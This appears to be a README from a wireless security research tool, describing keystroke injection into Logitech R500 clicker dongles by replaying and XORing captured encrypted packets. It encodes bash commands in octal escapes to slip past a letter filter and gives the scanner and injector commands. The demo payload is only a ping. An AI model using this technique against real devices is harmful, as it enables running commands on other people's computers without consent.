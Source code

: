 I say *sort-of*, because not all HID scan codes are accepted. Specifically, 0x04-0x1D (A-Z) are replaced by 0x00 when the dongle sends the packet to the host computer, which means we can inject whatever we want, as long as it isn't a letter. The other exception is that ctrl key-chords *are* allowed, even when they include letters.

Effective keystroke injection via the R500 requires that we get a little creative. 

Let's assume the target is in a bash session. In bash, we can encode our characters in base-8, encoding commands containing letters that we want our target to execute. 

For instance, `ping google.com` is encoded as `$'\160\151\156\147' $'\147\157\157\147\154\145\056\143\157\155'`. If we send this string to a bash session and then send `enter`, the command `ping google.com` will be invoked on the target machine. 

#### Device Discovery

You can find the address of your Logitech R500 using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c {2..74..3} -l```

Packets should look something like this:

```
[2019-04-21 13:11:52.507]  62   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 13:11:52.515]  62   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 13:11:52.523]  62  22  85:D1:9D:FE:07  00:D3:4D:6F:B6:1B:E6:05:A2:B4:8B:98:F9:C2:00:00:00:00:00:00:00:81
```

#### Injection

Injection is possible because the dongle doesn't enforce incementing AES counters, so you can replay packets. A packet sent OTA is made up of a USB HID payload which has been encrypted in AES counter mode, and then the counter. When you press a button on the presentation clicker, it generates a key down packet, and a key up packet. The key up packet is all 0's, which gives us nice and clean key material that we can reuse, XOR with our own payload, and send OTA.

It shouldn't be hard to automate the process of listening for a button press, pulling out the second (key up) packet, and automatically using it for the key-material reference. But I'm lazy, so you'll first need to watch a button press yourself, which looks like this:

```
[2019-04-21 16:02:56.451]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.459]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.468]  65  22  85:D1:9D:FE:07  00:D3:E6:7B:35:8C:BB:2C:7D:5B:8B:98:FA:76:00:00:00:00:00:00:00:B9
[2019-04-21 16:02:56.475]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.507]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.516]  65  22  85:D1:9D:FE:07  00:D3:99:D6:D3:8D:49:25:F5:4D:8B:98:FA:77:00:00:00:00:00:00:00:1A
[2019-04-21 16:02:56.524]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
[2019-04-21 16:02:56.532]  65   5  85:D1:9D:FE:07  00:40:00:08:B8
``` 

The second 22-byte packet is the key-up packet. 

**Remove the last byte of the payload, and copy and paste the string into logitech.py, replacing KEYUP_REF.**

(It *shouldn't* work without updating `KEYUP_REF`, but if it does, please let me know!)

#### Injection

Inject the bash `ping google.com` base-8-encoded keystroke sequence into a specific Logitech R500 dongle (address `85:D1:9D:FE:07`):

```sudo ./tools/r500-injector.py -l -a 85:D1:9D:FE:07```
```